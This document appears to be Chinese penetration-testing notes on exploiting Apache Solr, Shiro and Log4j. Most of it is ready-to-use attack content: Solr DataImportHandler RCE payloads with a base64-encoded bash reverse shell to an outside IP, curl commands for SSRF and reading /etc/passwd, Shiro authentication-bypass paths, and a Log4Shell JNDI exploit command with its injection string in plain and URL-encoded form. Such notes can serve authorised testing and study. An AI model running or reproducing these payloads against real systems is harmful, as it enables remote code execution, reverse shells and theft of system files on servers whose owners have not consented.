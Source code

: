 
---

Solr搜索&Shiro身份&Log4j日志&本地CVE环境复
# 常见语言开发组件：(Java)

Apache Solr、Apache Shiro、Apache Struts2、Apache Flink、Flume、Dubbo、Redis、Logstash、ElasticSearch、Kafka、Ghidra、Minecraft、Apache hive、Datax、Streaming、Dolphin Scheduler、Storm、Spring、Aibaba FastJson、Jackson、Log4J、XSteam等。
# Solr：

主要基于HTTP和Apache Lucene实现的全文搜索服务器。

历史漏洞：https://avd.aliyun.com/search?q=Solr

黑盒特征：图标及端口8393

## 1、命令执行（CVE-2019-17558）

Apache Solr 5.0.0版本至8.3.1

https://github.com/jas502n/solr_rce

```
D:\Python27\python.exe solr_rce.py http://123.58.236.76:50847 id
```

2、远程命令执行漏洞(CVE-2019-0193)

Apache Solr < 8.2.0版本

https://vulhub.org/#/environments/solr/CVE-2019-0193/

```
条件1：Apache Solr的DataImportHandler启用了模块DataImportHandler(默认不会被启用)

条件2：Solr Admin UI未开启鉴权认证。（默认情况无需任何认证）
```

选择已有核心后选择Dataimport功能并选择debug模式，更改填入以下POC，点击Execute with this Confuguration

```
<dataConfig>

<dataSource type="URLDataSource"/>

<script><![CDATA[

function poc(){ java.lang.Runtime.getRuntime().exec("curl http://8.155.49.234:3000");

}

]]></script>

<document>

<entity name="stackoverflow"

url="https://stackoverflow.com/feeds/tag/solr"

processor="XPathEntityProcessor"

forEach="/feed"

transformer="script:poc" />

</document>

</dataConfig>

<dataConfig> <script><![CDATA[ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjE1NS40OS4yMzQvMzAwMCAwPiYx}|{base64,-d}|{bash,-i}"); ]]></script> <dataSource type="URLDataSource"/> <document> <entity name="exploit" url="http://example.com" /> </document> </dataConfig>

curl -X POST "http://localhost:8983/solr/atom/dataimport?command=full-import" \ -H "Content-Type: application/xml" \ --data-binary '<dataConfig> <script><![CDATA[ print("Hello, Solr!"); ]]></script> <document> <entity name="exploit" processor="XPathEntityProcessor" dataSource="null" forEach="/rows" /> </document> </dataConfig>'

```

## 3、Apache Solr 文件读取&SSRF (CVE-2021-27905)

全版本官方拒绝修复漏洞

### 1、获取数据库名

```
http://47.94.236.117:8983/solr/admin/cores?indexInfo=false&wt=json
```

### 2、访问触发

```
curl -i -s -k -X $'POST' \

-H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \

$'http://47.94.236.117:8983/solr/demo/config'
```
### 3、任意文件读取

```
curl -i -s -k 'http://47.94.236.117:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

# Shiro：

Java安全框架，能够用于身份验证、授权、加密和会话管理。

历史漏洞：https://avd.aliyun.com/search?q=Shiro

黑盒特征：数据包cookie里面rememberMe

## 1、CVE_2016_4437 Shiro-550+Shiro-721

影响范围：Apache Shiro <= 1.2.4

工具箱利用项目搜哈

## 2、CVE-2020-11989

Poc：/admin/%20

影响范围：Apache Shiro < 1.7.1

## 3、CVE-2020-1957

Poc：/xxx/..;/admin/

影响范围：Apache Shiro < 1.5.3

## 4、CVE-2022-32532

Poc： /permit/any

/permit/a%0any可绕过

需要依赖代码具体写法，无法自动化，风险较低。

影响范围：Apache Shiro < 1.9.1

# Log4j：

Apache的一个开源项目，是一个基于Java的日志记录框架。

历史漏洞：https://avd.aliyun.com/search?q=Log4j

黑盒特征：盲打 会问蓝队攻击特征`（${jndi:rmi:///osutj8}）`

## Log4j2远程命令执行（CVE-2021-44228）

漏洞影响的产品版本包括：

Apache Log4j2 2.0 - 2.15.0-rc1

1、生成反弹Shell的JNDI注入

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3Lzk5MDAgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 47.94.236.117
```

2、构造JNDI注入Payload提交

```
${jndi:rmi://47.94.236.117:1099/osutj8}

%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%34%37%2e%39%34%2e%32%33%36%2e%31%31%37%3a%31%30%39%39%2f%6f%73%75%74%6a%38%7d
```
